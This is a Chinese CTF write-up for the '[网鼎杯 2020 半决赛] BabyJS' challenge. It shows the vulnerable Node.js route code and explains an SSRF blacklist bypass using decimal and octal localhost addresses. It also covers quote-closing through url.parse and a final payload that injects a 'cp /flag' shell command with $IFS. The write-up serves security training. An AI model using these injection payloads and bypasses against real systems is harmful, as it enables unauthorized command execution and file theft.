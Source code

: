 ```yaml
---
title: '[网鼎杯 2020 半决赛]BabyJS'
date: 2024-11-20 21:45:08
tags: 
      - ssrf
      - nodejs
categories: 刷题笔记
---
```


## [网鼎杯 2020 半决赛]BabyJS

题目的关键代码如下

```js
var express = require('express');
var config = require('../config');
var url=require('url');
var child_process=require('child_process');
var fs=require('fs');
var request=require('request');
var router = express.Router();


var blacklist=['127.0.0.1.xip.io','::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

router.get('/', function(req, res, next) {
    res.json({});
});

router.get('/debug', function(req, res, next) {
    console.log(req.ip);
    if(blacklist.indexOf(req.ip)!=-1){
        console.log('res');
	var u=req.query.url.replace(/[\"\']/ig,'');
	console.log(url.parse(u).href);
	let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
	console.log(log);
	child_process.exec(log);
	res.json({data:fs.readFileSync('/tmp/log').toString()});
    }else{
        res.json({});
    }
});


router.post('/debug', function(req, res, next) {
    console.log(req.body);
    if(req.body.url !== undefined) {
        var u = req.body.url;
	var urlObject=url.parse(u);
	if(blacklist.indexOf(urlObject.hostname) == -1){
		var dest=urlObject.href;
		request(dest,(err,result,body)=>{
			res.json(body);
		})
	}
	else{
		res.json([]);
	}
	}
});

module.exports = router;
```



实现GET方法在debug路由中，这存在可控的命令执行，但需要rep.ip为黑名单的ip，那么就可以确定这是一道SSRF的题目看，然后看post或者debug路由，可知这道题的解题方法应该是通过POST访问debug路由，传递url参数，使url参数经过url.parse()处理后对应的hostname不在黑名单里，然后调用request()去访问url.parse处理后的href，这里由于黑名单过滤不全，可以通过`http://2130706433/`、`http://0177.0.0.01/`等方式绕过；之后就是要闭合单引号，执行多条命令了，经过测试发现，在`@`符号之前输入`%27`，会经过url解码变成单引号，如下                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             

```js
var url=require('url');

var request=require('request');
var u = "http://aaa%27@:8000%27qq.com";

urlObject=url.parse(u);
console.log(urlObject);

/*
Url {
  protocol: 'http:',
  slashes: true,
  auth: 'aaa\'',
  host: ':8000',
  port: '8000',
  hostname: '',
  hash: null,
  search: null,
  query: null,
  pathname: '%27qq.com',
  path: '%27qq.com',
  href: 'http://aaa\'@:8000/%27qq.com' }
  */
```

之后就是执行命令了，但是没有回显，可以尝试将`flag`写入文件中，经过测试发现`>`、`}`和空格符等字符都会被编码，就不能利用`cat`和`>`来写入文件了，所以最后利用`cp`将`flag`复制到`/tmp/log/`中，然后直接就可以直接读FLAG了。

```
url=http://2130706433/debug?url=http://%2527@1;cp$IFS$9/flag$IFS$9/tmp/log;%23
```

![image-20241121204431655](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411212044829.png)

参考：

https://blog.csdn.net/qq_33917045/article/details/110306993

https://blog.csdn.net/qq_53755216/article/details/119332974

http://47.96.173.116/2021/10/06/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E5%8D%8A%E5%86%B3%E8%B5%9Bbabyjs/
